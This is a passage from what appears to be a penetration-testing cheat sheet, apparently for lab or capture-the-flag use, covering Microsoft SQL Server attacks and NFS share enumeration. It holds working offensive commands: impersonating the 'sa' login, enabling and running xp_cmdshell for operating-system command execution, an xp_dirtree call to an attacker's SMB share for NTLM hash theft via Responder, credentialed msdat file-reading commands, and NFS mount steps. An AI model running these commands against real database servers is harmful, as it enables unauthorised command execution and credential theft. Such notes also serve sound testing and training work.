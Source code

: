```

# Assume that the 'sa' user can be impersonated.
EXECUTE AS 'sa'
EXEC xp_cmdshell 'whoami'
```

* Enable xp_cmd_shell

```
> enable_xp_cmdshell
> disable_xp_cmdshell
```

```
# Enable advanced options
> EXEC sp_configure 'show advanced options', 1;
# Update the currently configured value for the advanced options
> RECONFIGURE;
# Enable the command shell
> EXEC sp_configure 'xp_cmdshell', 1;
# Update the currently configured value for the command shell
> RECONFIGURE;
```

*  use xp_dirtree for ntlm theft via responder or smbserver

```
xp_dirtree \\tun0-ip\share
```

* msdat
```
# MSDAT: https://github.com/quentinhardy/msdat
# all: Enumerate with all modules
python3 msdat.py all -s example.com
# -D, -U, -P: Use Windows authentication
python3 msdat.py all -s example.com -D domain -U username -P password
# xpdirectory: List directories in system
python3 msdat.py xpdirectory -s manager.htb -D manager -U operator -P operator -d master --list-files 'C:\'
# bulkopen: Read/download files
python3 msdat.py bulkopen -s example.com -D domain -U username -P password -d database --rea
```

## 2049 - NFS

* just list and mount

```
showmount -e $IP
```

```
sudo mount -t nfs $IP:/share /tmp/mnt
```

